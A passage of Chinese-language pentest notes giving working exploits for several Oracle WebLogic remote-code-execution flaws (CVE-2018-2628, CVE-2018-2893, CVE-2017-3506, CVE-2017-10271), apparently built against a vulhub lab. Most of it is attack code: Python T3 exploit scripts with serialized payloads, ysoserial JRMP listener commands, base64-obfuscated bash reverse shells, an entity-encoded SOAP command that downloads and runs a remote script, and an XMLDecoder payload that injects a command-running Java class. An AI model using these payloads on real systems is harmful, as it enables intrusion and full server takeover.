    payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
    payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
    sock.send(payload.decode('hex'))
    time.sleep(2)
    sock.send(payload.decode('hex'))
    res = ''
    try:
        while True:
            res += sock.recv(4096)
            time.sleep(0.1)
    except Exception:
        pass
    return res
 
 
def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port)
    print("payload: " + payload)
    rs=send_payload_objdata(sock, payload)
    print('response: ' + rs)
    print('exploit completed!')
 
 
if __name__=="__main__":
    #check for args, print usage if incorrect
    if len(sys.argv) != 6:
        print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] \n')
        sys.exit()
 
    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    #jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port)
```

在JRMPListener上运行

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc  -nv <ip> <port>'
可以将命令替换成bash反弹shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE4MC4yMjYvODAgMD4mMQo=}|{base64,-d}|{bash,-i}
```

vps监听端口

```bash
nc -lvvp 80
```

攻击机上执行

```bash
python exploit.py <victim ip>
<victim port> weblogic-spring-jndi-10.3.6.0.jar <JRMPListener ip> <JRMPListener port>
```

# CVE-2018-2893

工具下载

[ysoserial-0.0.6](https://github.com/brianwrf/ysoserial/releases)

[ysoserial-cve-2018-2893.jar](https://github.com/Ryaninf/CVE-2018-2893)

weblogic(CVE-2018-2893).py

```python
#!/usr/bin/python
import socket
import os
import sys
import struct

if len(sys.argv) < 3:
    print 'Usage: python %s <host> <port> </path/to/payload>' % os.path.basename(sys.argv[0])
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(5)

server_address = (sys.argv[1], int(sys.argv[2]))
print '[+] Connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'

# adjust header for appropriate message length
payload=struct.pack('>I',len(payload)) + payload[4:]

print '[+] Sending payload...'
print payload
sock.send(payload)
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

```

环境直接复用vulhub中CVE-2018-2628即可

10.251.0.105是JRMP服务器

10.251.0.187是攻击机

10.251.0.189是靶机

1. 在10.251.0.105上使用ysoserial-0.0.6开启JRMP服务，payload必须使用CommonsCollections1

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yNTEuMC4xMDUvOTk5OSAwPiYxCg==}|{base64,-d}|{bash,-i}'
```

2. 在10.251.0.105上监听端口。接收反弹shell的机器和JRMP服务器为同一台机器

```bash
nc -lvvp 9999
```

3. 在攻击机（10.251.0.189）上执行

> java -jar ysoserial-cve-2018-2893.jar JRMP Client4 "10.251.0.105:1099" >poc4.ser
>
> python2 weblogic(CVE-2018-2893).py 10.251.0.189 7001 poc4.ser

成功截图



---

# CVE-2017-3506

影响版本：
Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.1.3.0

Oracle WebLogic Server 12.2.1.2

Oracle WebLogic Server 12.2.1.1

Oracle Wevlogic Server 12.2.1.0

exploit

```http
POST //wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 192.168.180.226:7001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: text/xml
Content-Length: 1116

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
<void index="1">
                  <string>-c</string>
                </void>
<void index="2">
                  <string>&#x62;&#x61;&#x73;&#x68;&#x20;&#x3C;&#x28;&#x77;&#x67;&#x65;&#x74;&#x20;&#x2D;&#x71;&#x20;&#x2D;&#x4F;&#x20;&#x2D;&#x20;&#x20;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x31;&#x39;&#x32;&#x2E;&#x31;&#x36;&#x38;&#x2E;&#x31;&#x38;&#x30;&#x2E;&#x32;&#x32;&#x36;&#x2F;&#x65;&#x78;&#x70;&#x6C;&#x6F;&#x69;&#x74;&#x2E;&#x73;&#x68;&#x29;</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>

```

<string>标签之间是要执行的命令，需要经过HTML实体编码

执行的命令:

> &#x62;&#x61;&#x73;&#x68;&#x20;&#x3C;&#x28;&#x77;&#x67;&#x65;&#x74;&#x20;&#x2D;&#x71;&#x20;&#x2D;&#x4F;&#x20;&#x2D;&#x20;&#x20;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x31;&#x39;&#x32;&#x2E;&#x31;&#x36;&#x38;&#x2E;&#x31;&#x38;&#x30;&#x2E;&#x32;&#x32;&#x36;&#x2F;&#x65;&#x78;&#x70;&#x6C;&#x6F;&#x69;&#x74;&#x2E;&#x73;&#x68;&#x29;  

---

# CVE-2017-10271

影响版本：
Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.2.1.2

Oracle WebLogic Server 12.2.1.1

Oracle WebLogic Server 12.1.3.0

无回显payload

```http
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder"> 
                    <array class="java.lang.String" length="3">
                       <void index="0">
                        <string>/bin/sh</string>
                    </void>
                     <void index="1">
                        <string>-c</string>
                    </void>    
                     <void index="2">
                        <string>ifconfig >> servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/shell2.txt</string>
                    </void>        
                    </array>
                <void method="start"/> 
                </void>
            </java> 
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/> 
</soapenv:Envelope>

```

有回显payload

```bash
java -jar Weblogic(CVE-2017-10271).jar
```

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.251.0.189:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0624E4A2965A43A8F550325BFDB4FF08
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Content-type: text/xml
Cache-Control: no-cache
Content-Length: 5149

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <void class="weblogic.utils.Hex" method="fromHexString" id="cls"><string>0xcafebabe0000003200670a001700350800360a003700380a0039003a08003b0a0039003c07003d0a0007003508003e0a0039003f0a003900400b004100420800430800440800450800460700470a001100480a001100490a0011004a0a004b004c07004d07004e0100063c696e69743e010003282956010004436f646501000f4c696e654e756d6265725461626c650100124c6f63616c5661726961626c655461626c650100047468697301001e4c636f6d2f737570657265616d2f6578706c6f6974732f586d6c4578703b010003736179010029284c6a6176612f6c616e672f537472696e673b294c6a6176612f696f2f496e70757453747265616d3b010003636d640100124c6a6176612f6c616e672f537472696e673b01000769734c696e75780100015a0100056f73547970010004636d64730100104c6a6176612f7574696c2f4c6973743b01000e70726f636573734275696c64657201001a4c6a6176612f6c616e672f50726f636573734275696c6465723b01000470726f630100134c6a6176612f6c616e672f50726f636573733b0100164c6f63616c5661726961626c65547970655461626c650100244c6a6176612f7574696c2f4c6973743c4c6a6176612f6c616e672f537472696e673b3e3b01000d537461636b4d61705461626c6507004f07005001000a457863657074696f6e7307005101000a536f7572636546696c6501000b586d6c4578702e6a6176610c001800190100076f732e6e616d650700520c0053005407004f0c0055005601000377696e0c005700580100136a6176612f7574696c2f41727261794c697374010004244e4f240c0059005a0c005b005c0700500c005d005e0100092f62696e2f626173680100022d63010007636d642e6578650100022f630100186a6176612f6c616e672f50726f636573734275696c6465720c0018005f0c006000610c006200630700640c0065006601001c636f6d2f737570657265616d2f6578706c6f6974732f586d6c4578700100106a6176612f6c616e672f4f626a6563740100106a6176612f6c616e672f537472696e6701000e6a6176612f7574696c2f4c6973740100136a6176612f6c616e672f457863657074696f6e0100106a6176612f6c616e672f53797374656d01000b67657450726f7065727479010026284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f537472696e673b01000b746f4c6f7765724361736501001428294c6a6176612f6c616e672f537472696e673b010008636f6e7461696e7301001b284c6a6176612f6c616e672f4368617253657175656e63653b295a01000a73746172747357697468010015284c6a6176612f6c616e672f537472696e673b295a010009737562737472696e670100152849294c6a6176612f6c616e672f537472696e673b010003616464010015284c6a6176612f6c616e672f4f626a6563743b295a010013284c6a6176612f7574696c2f4c6973743b295601001372656469726563744572726f7253747265616d01001d285a294c6a6176612f6c616e672f50726f636573734275696c6465723b010005737461727401001528294c6a6176612f6c616e672f50726f636573733b0100116a6176612f6c616e672f50726f6365737301000e676574496e70757453747265616d01001728294c6a6176612f696f2f496e70757453747265616d3b0021001600170000000000020001001800190001001a0000002f00010001000000052ab70001b100000002001b00000006000100000007001c0000000c000100000005001d001e00000001001f00200002001a0000016f000300070000009c043d1202b800034e2dc600112db600041205b60006990005033dbb000759b700083a042b1209b6000a99001319042b07b6000bb9000c020057a700441c9900231904120db9000c0200571904120eb9000c02005719042bb9000c020057a700201904120fb9000c02005719041210b9000c02005719042bb9000c020057bb0011591904b700123a05190504b60013571905b600143a061906b60015b000000004001b0000004a001200000012000200130008001400180015001a00180023001a002c001b003c001c0040001d004a001e0054001f00600021006a002200740023007d002600880027008f002800960029001c0000004800070000009c001d001e00000000009c0021002200010002009a00230024000200080094002500220003002300790026002700040088001400280029000500960006002a002b0006002c0000000c0001002300790026002d0004002e000000110004fd001a0107002ffc0021070030231c0031000000040001003200010033000000020034</string>
                </void>
                <void class="org.mozilla.classfile.DefiningClassLoader">
                    <void method="defineClass">
                        <string>com.supeream.exploits.XmlExp</string>
                        <object idref="cls"></object>
                        <void method="newInstance">
                            <void method="say" id="proc">
                                <string>ifconfig</string>
                            </void>
                        </void>
                    </void>
                </void>
                <void class="java.lang.Thread" method="currentThread">
                    <void method="getCurrentWork">
                        <void method="getResponse">
                            <void method="getServletOutputStream">
                                <void method="writeStream">
                                    <object idref="proc"></object>
                                </void>
                                <void method="flush"/>
                            </void>
                            <void method="getWriter"><void method="write"><string></string></void></void>
                        </void>
                    </void>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

---

